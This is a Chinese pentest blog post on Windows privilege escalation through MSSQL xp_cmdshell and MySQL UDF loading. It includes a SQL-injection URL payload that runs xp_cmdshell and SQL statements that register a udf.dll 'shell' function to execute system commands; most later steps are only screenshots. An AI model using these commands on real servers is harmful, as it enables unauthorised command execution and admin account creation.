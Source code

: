 +++
date = "2016-08-07T23:38:58+08:00"
description = ""
draft = false
tags = ["elevate privileges"]
title = "Windows下第三方服务提权"
topics = ["Pentest"]

+++

<center><h2>MSSQL和MySQL提权</h2></center>
## MSSQL提权
> MSSQL运行在system权限时才可以通过xp_cmdshell组件执行系统命令提权  
提权条件：数据库账号是DBA权限

#### 关于xp_cmdshell
* 得到数据库连接信息，连接数据库后执行EXEC xp_cmdshell 'net user';
* 有sql注入时也可以直接在url上使用xp_cmdshell，因为mssql可以多语句执行，例如?id=1;EXEC xp_cmdshell 'net user';\-\-

#### 连接数据库
> {{% fluid_img src="/img/post/privilge_escalation_win_find_sql_conn_msg.png" alt="Windows下第三方服务提权-找数据库连接信息" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_conn_mssql.png" alt="Windows下第三方服务提权-连接mssql数据库" %}}

#### 执行系统命令
> {{% fluid_img src="/img/post/privilge_escalation_win_try_exec_sys_command.png" alt="Windows下第三方服务提权-尝试用xp_cmdshell执行命令" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_open_cmd_shell.png" alt="Windows下第三方服务提权-开启xp_cmdshell组件" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_exec_sys_command_success.png" alt="Windows下第三方服务提权-使用xp_cmdshell成功执行命令" %}}

#### 添加用户
> {{% fluid_img src="/img/post/privilge_escalation_win_add_user.png" alt="Windows下第三方服务提权-添加用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_view_user.png" alt="Windows下第三方服务提权-查看添加的用户" %}}

#### 远程连接
> {{% fluid_img src="/img/post/privilge_escalation_win_remote_conn.png" alt="Windows下第三方服务提权-远程连接" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_input_u_p.png" alt="Windows下第三方服务提权-输入用户名和密码" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_remote_connection_view_ip.png" alt="Windows下第三方服务提权-输入用户名和密码" %}}

<br /><br />

## MySQL提权
> 环境：web应用服务器权限较低  
提权条件：MySQL是system权限

#### 关于UDF
> MySQL提权可以用UDF和Mof。UDF就是User defined Function，即用户定义函数，可以通过创建存储方法来定义函数，从而调用系统命令。

#### UDF提权过程
* 导入udf.dll到服务器指定目录  
	* MySQL版本小于5.1的udf.dll要导入到c:\windows\目录下  
	* MySQL版本大于等于5.1的udf.dll要导入到plugin_dir目录，plugin_dir在MySQL安装目录下的lib/plugin目录下(MySQL安装目录可以用select @@basedir得到)，默认不存在这个目录，我们要自己创建
* 使用SQL语句创建功能函数  
	CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll';
* 执行MySQL语句调用新创建的函数  
	select shell('cmd','whoami');
* 删除创建的函数  
	drop function shell;

#### 查看基本信息
> {{% fluid_img src="/img/post/privilge_escalation_win_view_base_msg.png" alt="Windows下第三方服务提权-查看基本信息" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_view_current_user.png" alt="Windows下第三方服务提权-查看当前用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_view_current_user_permissions.png" alt="Windows下第三方服务提权-查看当前用户权限" %}}

#### 上传udf提权
> {{% fluid_img src="/img/post/privilge_escalation_win_upload_udf.png" alt="Windows下第三方服务提权-上传udf" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_conn_mysql.png" alt="Windows下第三方服务提权-连接数据库" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_export_udf.png" alt="Windows下第三方服务提权-导出udf.dll并生成函数" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_exec_whoami.png" alt="Windows下第三方服务提权-提权成功执行whoami" %}}

#### 添加用户
> {{% fluid_img src="/img/post/privilge_escalation_win_shell_add_user.png" alt="Windows下第三方服务提权-通过shell函数添加用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_shell_add_user_to_administrators.png" alt="Windows下第三方服务提权-通过shell函数添加用户到管理员组" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_shell_active_user.png" alt="Windows下第三方服务提权-通过shell函数激活用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_shell_view_user.png" alt="Windows下第三方服务提权-通过shell函数查看用户" %}}

#### 远程连接
> {{% fluid_img src="/img/post/privilge_escalation_win_shell_remote_connection.png" alt="Windows下第三方服务提权-远程3389连接" %}}